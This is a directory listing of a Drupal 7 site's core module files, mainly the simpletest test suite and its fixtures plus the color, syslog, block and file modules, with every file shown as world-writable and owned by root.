-rwxrwxrwx 1 root root 265 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/image_test.info
-rwxrwxrwx 1 root root 20675 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/theme.test
-rwxrwxrwx 1 root root 291 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/file_test.info
-rwxrwxrwx 1 root root 2624 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/lock.test
-rwxrwxrwx 1 root root 747 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/taxonomy_test.install
-rwxrwxrwx 1 root root 295 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/common_test_cron_helper.info
-rwxrwxrwx 1 root root 17712 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/image.test
-rwxrwxrwx 1 root root 313 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/requirements1_test.info
-rwxrwxrwx 1 root root 269 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/database_test.info
-rwxrwxrwx 1 root root 16438 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/ajax_forms_test.module
-rwxrwxrwx 1 root root 73350 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/menu.test
-rwxrwxrwx 1 root root 362 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/common_test_cron_helper.module
-rwxrwxrwx 1 root root 860 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/https.php
-rwxrwxrwx 1 root root 1207 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/update_test_2.install
-rwxrwxrwx 1 root root 4686 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/error.test
-rwxrwxrwx 1 root root 273 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/error_test.info
-rwxrwxrwx 1 root root 9556 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/xmlrpc.test
-rwxrwxrwx 1 root root 341 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/common_test.info
-rwxrwxrwx 1 root root 5489 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/pager.test
-rwxrwxrwx 1 root root 143 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/system.base.css
-rwxrwxrwx 1 root root 6 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/system_incompatible_core_version_test.module
-rwxrwxrwx 1 root root 1717 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/filter_test.module
-rwxrwxrwx 1 root root 5840 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/actions.test
-rwxrwxrwx 1 root root 12401 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/system_test.module
-rwxrwxrwx 1 root root 111761 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/file.test
-rwxrwxrwx 1 root root 11151 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/unicode.test
-rwxrwxrwx 1 root root 322 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/system_dependencies_test.info
-rwxrwxrwx 1 root root 261 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/update_test_2.info
-rwxrwxrwx 1 root root 442 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/system_incompatible_module_version_dependencies_test.info
-rwxrwxrwx 1 root root 6377 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/graph.test
-rwxrwxrwx 1 root root 13635 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/batch_test.module
-rwxrwxrwx 1 root root 2599 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/actions_loop_test.module
-rwxrwxrwx 1 root root 6 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/update_test_3.module
-rwxrwxrwx 1 root root 334 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/common_test_info.txt
-rwxrwxrwx 1 root root 1535 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/entity_query_access_test.module
-rwxrwxrwx 1 root root 268 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/menu_test.info
-rwxrwxrwx 1 root root 3853 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/module_test.module
-rwxrwxrwx 1 root root 317 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/drupal_system_listing_incompatible_test/drupal_system_listing_incompatible_test.info
-rwxrwxrwx 1 root root 6 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/drupal_system_listing_incompatible_test/drupal_system_listing_incompatible_test.module
-rwxrwxrwx 1 root root 1323 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/update_script_test.install
-rwxrwxrwx 1 root root 13584 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/path.test
-rwxrwxrwx 1 root root 305 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/taxonomy_test.info
-rwxrwxrwx 1 root root 2713 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/taxonomy_test.module
-rwxrwxrwx 1 root root 305 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/entity_cache_test_dependency.module
-rwxrwxrwx 1 root root 319 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/entity_cache_test.info
-rwxrwxrwx 1 root root 7428 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/common_test.module
-rwxrwxrwx 1 root root 6 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/update_test_2.module
-rwxrwxrwx 1 root root 5584 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/session_test.module
-rwxrwxrwx 1 root root 272 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/url_alter_test.info
-rwxrwxrwx 1 root root 268 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/session_test.info
-rwxrwxrwx 1 root root 1795 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/url_alter_test.module
-rwxrwxrwx 1 root root 261 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/update_test_3.info
-rwxrwxrwx 1 root root 436 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/update_test_3.install
-rwxrwxrwx 1 root root 930 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/module_test.install
-rwxrwxrwx 1 root root 6 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/psr_0_test/psr_0_test.module
-rwxrwxrwx 1 root root 255 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/psr_0_test/psr_0_test.info
-rwxrwxrwx 1 root root 441 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/psr_0_test/lib/Drupal/psr_0_test/Tests/Nested/NestedExampleTest.php
-rwxrwxrwx 1 root root 421 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/psr_0_test/lib/Drupal/psr_0_test/Tests/ExampleTest.php
-rwxrwxrwx 1 root root 324 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/themes/test_subtheme/test_subtheme.info
-rwxrwxrwx 1 root root 1047 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/themes/test_theme/test_theme.info
-rwxrwxrwx 1 root root 581 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/themes/test_theme/template.php
-rwxrwxrwx 1 root root 352 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/themes/test_basetheme/test_basetheme.info
-rwxrwxrwx 1 root root 266 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/theme_test.info
-rwxrwxrwx 1 root root 111 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/requirements1_test.module
-rwxrwxrwx 1 root root 4772 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/registry.test
-rwxrwxrwx 1 root root 4018 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/batch_test.callbacks.inc
-rwxrwxrwx 1 root root 12522 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/file_test.module
-rwxrwxrwx 1 root root 300 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/system_incompatible_core_version_test.info
-rwxrwxrwx 1 root root 21627 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/session.test
-rwxrwxrwx 1 root root 410 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/path_test.module
-rwxrwxrwx 1 root root 262 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/form_test.info
-rwxrwxrwx 1 root root 897 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/http.php
-rwxrwxrwx 1 root root 275 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/update_script_test.info
-rwxrwxrwx 1 root root 18363 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/menu_test.module
-rwxrwxrwx 1 root root 206 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/actions_loop_test.install
-rwxrwxrwx 1 root root 2611 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/password.test
-rwxrwxrwx 1 root root 5853 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/database_test.install
-rwxrwxrwx 1 root root 286 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/system_test.info
-rwxrwxrwx 1 root root 1889 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/ajax_test.module
-rwxrwxrwx 1 root root 419 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/update_script_test.module
-rwxrwxrwx 1 root root 4544 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/filetransfer.test
-rwxrwxrwx 1 root root 6 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/drupal_system_listing_compatible_test/drupal_system_listing_compatible_test.module
-rwxrwxrwx 1 root root 315 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/drupal_system_listing_compatible_test/drupal_system_listing_compatible_test.info
-rwxrwxrwx 1 root root 303 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/xmlrpc_test.info
-rwxrwxrwx 1 root root 3179 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/xmlrpc_test.module
-rwxrwxrwx 1 root root 1433 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/form_test.file.inc
-rwxrwxrwx 1 root root 79 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/common_test.print.css
-rwxrwxrwx 1 root root 15751 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/cache.test
-rwxrwxrwx 1 root root 1931 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/error_test.module
-rwxrwxrwx 1 root root 4783 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/tablesort.test
-rwxrwxrwx 1 root root 295 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/entity_cache_test_dependency.info
-rwxrwxrwx 1 root root 289 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/entity_query_access_test.info
-rwxrwxrwx 1 root root 368 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/system_incompatible_core_version_dependencies_test.info
-rwxrwxrwx 1 root root 130 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/requirements2_test.module
-rwxrwxrwx 1 root root 298 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/system_incompatible_module_version_test.info
-rwxrwxrwx 1 root root 6664 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/database_test.module
-rwxrwxrwx 1 root root 273 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/entity_crud_hook_test.info
-rwxrwxrwx 1 root root 79 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/common_test.css
-rwxrwxrwx 1 root root 4760 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/upgrade/drupal-6.forum.database.php
-rwxrwxrwx 1 root root 5463 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/upgrade/drupal-6.locale.database.php
-rwxrwxrwx 1 root root 3987 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/upgrade/upgrade.upload.test
-rwxrwxrwx 1 root root 77424 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/upgrade/drupal-7.bare.standard_all.database.php.gz
-rwxrwxrwx 1 root root 576566 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/upgrade/drupal-6.filled.database.php
-rwxrwxrwx 1 root root 5466 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/upgrade/upgrade.node.test
-rwxrwxrwx 1 root root 651 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/upgrade/drupal-6.node_type_broken.database.php
-rwxrwxrwx 1 root root 509 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/upgrade/drupal-7.trigger.database.php
-rwxrwxrwx 1 root root 1725 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/upgrade/update.field.test
-rwxrwxrwx 1 root root 3770 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/upgrade/upgrade.menu.test
-rwxrwxrwx 1 root root 1114 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/upgrade/drupal-6.user-password-token.database.php
-rwxrwxrwx 1 root root 1076 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/upgrade/update.trigger.test
-rwxrwxrwx 1 root root 39843 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/upgrade/drupal-7.bare.minimal.database.php.gz
-rwxrwxrwx 1 root root 928 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/upgrade/update.user.test
-rwxrwxrwx 1 root root 3601 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/upgrade/upgrade.user.test
-rwxrwxrwx 1 root root 1897 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/upgrade/upgrade.filter.test
-rwxrwxrwx 1 root root 747 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/upgrade/drupal-6.comments.database.php
-rwxrwxrwx 1 root root 25143 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/upgrade/upgrade.test
-rwxrwxrwx 1 root root 2278 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/upgrade/drupal-6.translatable.database.php
-rwxrwxrwx 1 root root 480 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/upgrade/drupal-7.field.database.php
-rwxrwxrwx 1 root root 1212 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/upgrade/upgrade.trigger.test
-rwxrwxrwx 1 root root 2331 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/upgrade/upgrade.forum.test
-rwxrwxrwx 1 root root 2101 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/upgrade/upgrade.poll.test
-rwxrwxrwx 1 root root 877 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/upgrade/upgrade.comment.test
-rwxrwxrwx 1 root root 97603 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/upgrade/drupal-7.filled.standard_all.database.php.gz
-rwxrwxrwx 1 root root 3794 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/upgrade/drupal-6.menu.database.php
-rwxrwxrwx 1 root root 9143 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/upgrade/upgrade.taxonomy.test
-rwxrwxrwx 1 root root 270 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/upgrade/drupal-6.user-no-password-token.database.php
-rwxrwxrwx 1 root root 9657 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/upgrade/drupal-6.upload.database.php
-rwxrwxrwx 1 root root 235468 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/upgrade/drupal-6.bare.database.php
-rwxrwxrwx 1 root root 21027 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/upgrade/drupal-7.aggregator.database.php
-rwxrwxrwx 1 root root 41805 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/upgrade/drupal-7.filled.minimal.database.php.gz
-rwxrwxrwx 1 root root 1494 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/upgrade/update.aggregator.test
-rwxrwxrwx 1 root root 2006 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/upgrade/upgrade.translatable.test
-rwxrwxrwx 1 root root 1641 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/upgrade/drupal-6.trigger.database.php
-rwxrwxrwx 1 root root 175 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/upgrade/drupal-6.duplicate-permission.database.php
-rwxrwxrwx 1 root root 4403 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/upgrade/upgrade.locale.test
-rwxrwxrwx 1 root root 268 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/path_test.info
-rwxrwxrwx 1 root root 3243 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/image_test.module
-rwxrwxrwx 1 root root 79752 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/form.test
-rwxrwxrwx 1 root root 66 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/theme_test.template_test.tpl.php
-rwxrwxrwx 1 root root 16884 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/batch.test
-rwxrwxrwx 1 root root 268 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/actions_loop_test.info
-rwxrwxrwx 1 root root 24782 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/bootstrap.test
-rwxrwxrwx 1 root root 873 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/entity_cache_test.module
-rwxrwxrwx 1 root root 372 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/theme_test.inc
-rwxrwxrwx 1 root root 14943 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/module.test
-rwxrwxrwx 1 root root 3902 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/theme_test.module
-rwxrwxrwx 1 root root 12771 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/entity_crud_hook_test.test
-rwxrwxrwx 1 root root 392 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/requirements2_test.info
-rwxrwxrwx 1 root root 263 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/filter_test.info
-rwxrwxrwx 1 root root 265 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/batch_test.info
-rwxrwxrwx 1 root root 267 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/url_alter_test.install
-rwxrwxrwx 1 root root 23056 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/ajax.test
-rwxrwxrwx 1 root root 13772 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/schema.test
-rwxrwxrwx 1 root root 268 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/module_test.info
-rwxrwxrwx 1 root root 505 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/requirements1_test.install
-rwxrwxrwx 1 root root 261 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/ajax_test.info
-rwxrwxrwx 1 root root 6 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/system_incompatible_core_version_dependencies_test.module
-rwxrwxrwx 1 root root 6 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/system_dependencies_test.module
-rwxrwxrwx 1 root root 6 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/system_incompatible_module_version_test.module
-rwxrwxrwx 1 root root 4799 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/update.test
-rwxrwxrwx 1 root root 18014 Apr 16 2016 /var/www/html/jabc/modules/simpletest/simpletest.pages.inc
-rwxrwxrwx 1 root root 131636 Apr 16 2016 /var/www/html/jabc/modules/simpletest/drupal_web_test_case.php
-rwxrwxrwx 1 root root 6840 Apr 16 2016 /var/www/html/jabc/modules/simpletest/simpletest.install
-rwxrwxrwx 1 root root 39325 Apr 16 2016 /var/www/html/jabc/modules/simpletest/files/image-1.png
-rwxrwxrwx 1 root root 57 Apr 16 2016 /var/www/html/jabc/modules/simpletest/files/javascript-2.script
-rwxrwxrwx 1 root root 1831 Apr 16 2016 /var/www/html/jabc/modules/simpletest/files/image-2.jpg
-rwxrwxrwx 1 root root 244 Apr 16 2016 /var/www/html/jabc/modules/simpletest/files/README.txt
-rwxrwxrwx 1 root root 47 Apr 16 2016 /var/www/html/jabc/modules/simpletest/files/php-1.txt
-rwxrwxrwx 1 root root 183 Apr 16 2016 /var/www/html/jabc/modules/simpletest/files/image-test.gif
-rwxrwxrwx 1 root root 398 Apr 16 2016 /var/www/html/jabc/modules/simpletest/files/css_test_files/css_input_with_import.css
-rwxrwxrwx 1 root root 403 Apr 16 2016 /var/www/html/jabc/modules/simpletest/files/css_test_files/css_subfolder/css_input_with_import.css
-rwxrwxrwx 1 root root 548 Apr 16 2016 /var/www/html/jabc/modules/simpletest/files/css_test_files/css_subfolder/css_input_with_import.css.unoptimized.css
-rwxrwxrwx 1 root root 458 Apr 16 2016 /var/www/html/jabc/modules/simpletest/files/css_test_files/css_subfolder/css_input_with_import.css.optimized.css
-rwxrwxrwx 1 root root 812 Apr 16 2016 /var/www/html/jabc/modules/simpletest/files/css_test_files/css_input_without_import.css.optimized.css
-rwxrwxrwx 1 root root 61915 Apr 16 2016 /var/www/html/jabc/modules/simpletest/files/css_test_files/comment_hacks.css.unoptimized.css
-rwxrwxrwx 1 root root 1154 Apr 16 2016 /var/www/html/jabc/modules/simpletest/files/css_test_files/css_input_without_import.css.unoptimized.css
-rwxrwxrwx 1 root root 61915 Apr 16 2016 /var/www/html/jabc/modules/simpletest/files/css_test_files/comment_hacks.css
-rwxrwxrwx 1 root root 546 Apr 16 2016 /var/www/html/jabc/modules/simpletest/files/css_test_files/css_input_with_import.css.unoptimized.css
-rwxrwxrwx 1 root root 121 Apr 16 2016 /var/www/html/jabc/modules/simpletest/files/css_test_files/import1.css
-rwxrwxrwx 1 root root 455 Apr 16 2016 /var/www/html/jabc/modules/simpletest/files/css_test_files/css_input_with_import.css.optimized.css
-rwxrwxrwx 1 root root 844 Apr 16 2016 /var/www/html/jabc/modules/simpletest/files/css_test_files/comment_hacks.css.optimized.css
-rwxrwxrwx 1 root root 71 Apr 16 2016 /var/www/html/jabc/modules/simpletest/files/css_test_files/import2.css
-rwxrwxrwx 1 root root 1154 Apr 16 2016 /var/www/html/jabc/modules/simpletest/files/css_test_files/css_input_without_import.css
-rwxrwxrwx 1 root root 1901 Apr 16 2016 /var/www/html/jabc/modules/simpletest/files/image-test.jpg
-rwxrwxrwx 1 root root 41 Apr 16 2016 /var/www/html/jabc/modules/simpletest/files/sql-2.sql
-rwxrwxrwx 1 root root 125 Apr 16 2016 /var/www/html/jabc/modules/simpletest/files/image-test.png
-rwxrwxrwx 1 root root 44 Apr 16 2016 /var/www/html/jabc/modules/simpletest/files/php-2.php
-rwxrwxrwx 1 root root 24 Apr 16 2016 /var/www/html/jabc/modules/simpletest/files/html-1.txt
-rwxrwxrwx 1 root root 24 Apr 16 2016 /var/www/html/jabc/modules/simpletest/files/html-2.html
-rwxrwxrwx 1 root root 58 Apr 16 2016 /var/www/html/jabc/modules/simpletest/files/javascript-1.txt
-rwxrwxrwx 1 root root 41 Apr 16 2016 /var/www/html/jabc/modules/simpletest/files/sql-1.txt
-rwxrwxrwx 1 root root 3594 Apr 16 2016 /var/www/html/jabc/modules/simpletest/simpletest.js
-rwxrwxrwx 1 root root 395 Apr 16 2016 /var/www/html/jabc/modules/simpletest/lib/Drupal/simpletest/Tests/PSR0WebTest.php
-rwxrwxrwx 1 root root 22915 Apr 16 2016 /var/www/html/jabc/modules/simpletest/simpletest.module
-rwxrwxrwx 1 root root 1220 Apr 16 2016 /var/www/html/jabc/modules/simpletest/simpletest.api.php
-rwxrwxrwx 1 root root 1963 Apr 16 2016 /var/www/html/jabc/modules/simpletest/simpletest.info
-rwxrwxrwx 1 root root 28067 Apr 16 2016 /var/www/html/jabc/modules/simpletest/simpletest.test
-rwxrwxrwx 1 root root 1508 Apr 16 2016 /var/www/html/jabc/modules/simpletest/simpletest.css
-rwxrwxrwx 1 root root 2279 Apr 16 2016 /var/www/html/jabc/modules/color/color.install
-rwxrwxrwx 1 root root 562 Apr 16 2016 /var/www/html/jabc/modules/color/preview.html
-rwxrwxrwx 1 root root 291 Apr 16 2016 /var/www/html/jabc/modules/color/color.info
-rwxrwxrwx 1 root root 7617 Apr 16 2016 /var/www/html/jabc/modules/color/color.js
-rwxrwxrwx 1 root root 228 Apr 16 2016 /var/www/html/jabc/modules/color/images/lock.png
-rwxrwxrwx 1 root root 116 Apr 16 2016 /var/www/html/jabc/modules/color/images/hook-rtl.png
-rwxrwxrwx 1 root root 116 Apr 16 2016 /var/www/html/jabc/modules/color/images/hook.png
-rwxrwxrwx 1 root root 1447 Apr 16 2016 /var/www/html/jabc/modules/color/color.css
-rwxrwxrwx 1 root root 27587 Apr 16 2016 /var/www/html/jabc/modules/color/color.module
-rwxrwxrwx 1 root root 1468 Apr 16 2016 /var/www/html/jabc/modules/color/preview.js
-rwxrwxrwx 1 root root 718 Apr 16 2016 /var/www/html/jabc/modules/color/color-rtl.css
-rwxrwxrwx 1 root root 4277 Apr 16 2016 /var/www/html/jabc/modules/color/color.test
-rwxrwxrwx 1 root root 6012 Apr 16 2016 /var/www/html/jabc/modules/syslog/syslog.module
-rwxrwxrwx 1 root root 266 Apr 16 2016 /var/www/html/jabc/modules/syslog/syslog.install
-rwxrwxrwx 1 root root 1211 Apr 16 2016 /var/www/html/jabc/modules/syslog/syslog.test
-rwxrwxrwx 1 root root 309 Apr 16 2016 /var/www/html/jabc/modules/syslog/syslog.info
-rwxrwxrwx 1 root root 2677 Apr 16 2016 /var/www/html/jabc/modules/block/block-admin-display-form.tpl.php
-rwxrwxrwx 1 root root 243 Apr 16 2016 /var/www/html/jabc/modules/block/tests/block_test.info
-rwxrwxrwx 1 root root 3442 Apr 16 2016 /var/www/html/jabc/modules/block/tests/themes/block_test_theme/page.tpl.php
-rwxrwxrwx 1 root root 507 Apr 16 2016 /var/www/html/jabc/modules/block/tests/themes/block_test_theme/block_test_theme.info
-rwxrwxrwx 1 root root 1538 Apr 16 2016 /var/www/html/jabc/modules/block/tests/block_test.module
-rwxrwxrwx 1 root root 743 Apr 16 2016 /var/www/html/jabc/modules/block/block.css
-rwxrwxrwx 1 root root 39201 Apr 16 2016 /var/www/html/jabc/modules/block/block.test
-rwxrwxrwx 1 root root 2457 Apr 16 2016 /var/www/html/jabc/modules/block/block.tpl.php
-rwxrwxrwx 1 root root 39374 Apr 16 2016 /var/www/html/jabc/modules/block/block.module
-rwxrwxrwx 1 root root 16744 Apr 16 2016 /var/www/html/jabc/modules/block/block.install
-rwxrwxrwx 1 root root 395 Apr 16 2016 /var/www/html/jabc/modules/block/block.info
-rwxrwxrwx 1 root root 6225 Apr 16 2016 /var/www/html/jabc/modules/block/block.js
-rwxrwxrwx 1 root root 24650 Apr 16 2016 /var/www/html/jabc/modules/block/block.admin.inc
-rwxrwxrwx 1 root root 14734 Apr 16 2016 /var/www/html/jabc/modules/block/block.api.php
-rwxrwxrwx 1 root root 3920 Apr 16 2016 /var/www/html/jabc/modules/file/file.install
-rwxrwxrwx 1 root root 54141 Apr 16 2016 /var/www/html/jabc/modules/file/tests/file.test
-rwxrwxrwx 1 root root 271 Apr 16 2016 /var/www/html/jabc/modules/file/tests/file_module_test.info
-rwxrwxrwx 1 root root 1786 Apr 16 2016 /var/www/html/jabc/modules/file/tests/file_module_test.module
-rwxrwxrwx 1 root root 572 Apr 16 2016 /var/www/html/jabc/modules/file/file.css
-rwxrwxrwx 1 root root 35671 Apr 16 2016 /var/www/html/jabc/modules/file/file.field.inc
-rwxrwxrwx 1 root root 274 Apr 16 2016 /var/www/html/jabc/modules/file/file.info
-rwxrwxrwx 1 root root 37664 Apr 16 2016 /var/www/html/jabc/modules/file/file.module
-rwxrwxrwx 1 root root 6156 Apr 16 2016 /var/www/html/jabc/modules/file/file.js
-rwxrwxrwx 1 root root 346 Apr 16 2016 /var/www/html/jabc/modules/file/icons/application-pdf.png
-rwxrwxrwx 1 root root 220 Apr 16 2016 /var/www/html/jabc/modules/file/icons/text-plain.png
-rwxrwxrwx 1 root root 276 Apr 16 2016 /var/www/html/jabc/modules/file/icons/text-x-script.png
-rwxrwxrwx 1 root root 214 Apr 16 2016 /var/www/html/jabc/modules/file/icons/video-x-generic.png
-rwxrwxrwx 1 root root 265 Apr 16 2016 /var/www/html/jabc/modules/file/icons/text-html.png
-rwxrwxrwx 1 root root 310 Apr 16 2016 /var/www/html/jabc/modules/file/icons/audio-x-generic.png
-rwxrwxrwx 1 root root 385 Apr 16 2016 /var/www/html/jabc/modules/file/icons/image-x-generic.png
-rwxrwxrwx 1 root root 189 Apr 16 2016 /var/www/html/jabc/modules/file/icons/application-x-executable.png
-rwxrwxrwx 1 root root 260 Apr 16 2016 /var/www/html/jabc/modules/file/icons/package-x-generic.png
-rwxrwxrwx 1 root root 181 Apr 16 2016 /var/www/html/jabc/modules/file/icons/x-office-presentation.png
-rwxrwxrwx 1 root root 196 Apr 16 2016 /var/www/html/jabc/modules/file/icons/x-office-document.png
-rwxrwxrwx 1 root root 220 Apr 16 2016 /var/www/html/jabc/modules/file/icons/text-x-generic.png
-rwxrwxrwx 1 root root 189 Apr 16 2016 /var/www/html/jabc/modules/file/icons/application-octet-stream.png
-rwxrwxrwx 1 root root 183 Apr 16 2016 /var/www/html/jabc/modules/file/icons/x-office-spreadsheet.png
-rwxrwxrwx 1 root root 1940 Apr 16 2016 /var/www/html/jabc/modules/file/file.api.php
-rwxrwxrwx 1 root root 250 Apr 16 2016 /var/www/html/jabc/modules/update/tests/ccc_update_test.info
